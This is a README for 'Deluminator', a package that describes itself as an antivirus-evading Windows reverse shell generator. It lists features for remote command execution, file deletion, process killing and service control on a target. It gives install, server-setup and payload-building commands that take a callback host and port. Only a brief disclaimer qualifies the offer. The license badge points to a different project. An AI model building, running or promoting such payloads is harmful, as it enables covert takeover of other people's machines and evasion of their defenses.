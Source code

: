 # Deluminator

[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
This package is a reverse shell generator for Windows systems that uses sockets to establish a connection. It is highly capable of bypassing antivirus software. The package includes a control server and comes with a number of useful features.  

## Features
- Root shell `Coming soon`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine. 
- Upload/Download any type of files. `Coming soon`
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot `Coming soon`

## How to install
```
pip install deluminator
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
